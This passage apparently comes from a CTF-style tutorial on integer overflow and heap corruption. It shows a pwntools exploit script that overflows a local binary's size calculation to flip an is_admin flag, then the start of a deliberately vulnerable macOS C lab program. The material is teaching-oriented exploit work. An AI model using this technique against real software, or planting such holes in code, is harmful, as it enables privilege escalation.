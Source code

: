 ```
context.log_level = "info"

EXE = "./int_ovf_heap_priv"

def main():
    # IMPORTANT: use plain pipes, not PTY
    io = process([EXE])  # stdin=PIPE, stdout=PIPE by default

    # 1) Drive the prompts
    io.sendlineafter(b"Entry count: ", b"4294967296")  # 2^32 -> (uint32_t)0
    io.sendlineafter(b"Entry size: ",  b"1")           # alloc32 = 32, offset_to_sess = 48

    # 2) Wait until it’s actually reading the payload
    io.recvuntil(b">> Send bundle payload on stdin (EOF to finish)...")

    # 3) Overflow 48 bytes, then flip is_admin to 1 (little-endian)
    payload = b"A" * 48 + p32(1)

    # 4) Send payload, THEN send EOF via half-close on the pipe
    io.send(payload)
    io.shutdown("send")   # <-- this delivers EOF when using pipes, it's needed to stop the read loop from the binary

    # 5) Read the rest (should print admin + FLAG)
    print(io.recvall(timeout=5).decode(errors="ignore"))

if __name__ == "__main__":
    main()
```
```
### macOS Underflow Example

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <unistd.h>

/*
 * Integer underflow -> undersized allocation + oversized copy -> heap overwrite
 * Works on macOS arm64. Data-oriented exploit: flip sess->is_admin.
 */

__attribute__((noinline))
void win(void) {
    puts("🎉 EXPLOITATION SUCCESSFUL 🎉");
    puts("FLAG{integer_underflow_heap_overwrite_on_macos_arm64}");
    exit(0);
}

struct session {
    int  is_admin;      // flip 0 -> 1
    char note[64];
};

static size_t read_stdin(void *dst, size_t want) {
    // Read in bounded chunks so huge 'want' doesn't break on PTY/TTY.
    const size_t MAX_CHUNK = 1 << 20; // 1 MiB
    size_t got = 0;
    printf("[dbg] Requested bytes: %zu\n", want);
    while (got < want) {
        size_t remain = want - got;
```